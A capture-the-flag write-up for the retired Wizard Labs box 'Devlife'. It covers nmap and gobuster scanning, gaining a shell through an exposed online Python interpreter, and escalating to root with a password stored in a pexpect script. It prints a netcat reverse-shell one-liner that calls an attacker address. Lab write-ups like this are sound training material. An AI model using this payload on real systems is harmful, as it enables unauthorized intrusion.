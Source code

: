 ```yaml
---
layout: post
title: Wizard Labs - Devlife
categories: wizard-labs
tags: [Linux, Web, RCE, Python]
image: /wizardlabs/devlife/0.png
---
```

<hr>
### Quick Summary
#### Hey guys this is my write-up about Devlife from Wizard Labs which is their second box to retire. Just like [dummy](/wizard-labs/dummy/) it's another easy box (Difficulty : 2/10) , It's a linux box and its ip is `10.1.1.20` so let's jump right in !
![](/images/wizardlabs/devlife/0.png)
<hr>
### Nmap
#### We will start with nmap to scan for open ports and services : 
`nmap -sV -sT -sC 10.1.1.20`
![](/images/wizardlabs/devlife/1.png)
#### Only 2 ports are open , 22 running ssh and 80 running http. Let's check http.
<hr>
### HTTP Initial Enumeration
#### On the main page we get this "About me" message and nothing else :
![](/images/wizardlabs/devlife/2.png)
```
About Me

Hello , My name is Teddy Smith , I am a Python developer since 2007 !

Here I gonna share some Django tutorials and tutorials about System Administation in Python also I will write a Python online interpreter !!

Stay Tuned ...

TS

```
#### I ran `gobuster` with `/usr/share/wordlists/dirb/common.txt` and got these results :
```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/.hta (Status: 403)
/dev (Status: 301)
/index.html (Status: 200)
/manual (Status: 301)
/server-status (Status: 403)
```
<br>
<hr>
### Getting user
#### So I checked `/dev` and found this `Online Python 2.7 Interpreter` :
![](/images/wizardlabs/devlife/3.png)
#### Great , now we can get a reverse shell in many ways , I just imported `os` then did `os.system(reverse shell payload)` :
`import os;os.system('nc -e /bin/bash 10.xx.xx.xx 1337')`
![](/images/wizardlabs/devlife/4.png)
<br>
<br>
![](/images/wizardlabs/devlife/5.png)
#### And we owned user !
<br>
<hr>
### Stored root Credentials , Privilege Escalation
#### In the `/home` directory of `tedd` there is a directory called `.env` , Let's check that.
![](/images/wizardlabs/devlife/6.png)
<br>
<br>
![](/images/wizardlabs/devlife/7.png)
#### We notice a python script called `su.py` , which runs `su root` and uses the password to authenticate :
![](/images/wizardlabs/devlife/8.png)
```
import pexpect
child = pexpect.spawn('su root')
child.expect ('Password:')
child.sendline('teddyxy2019')
child.expect('\$')
child.sendline('whoami')
```
#### Now we can `su` to root using the password `teddyxy2019` :
![](/images/wizardlabs/devlife/9.png)
#### And we owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
#### Previous Wizard Labs Write-up : [Wizard Labs - Dummy](/wizard-labs/dummy/)
<hr>
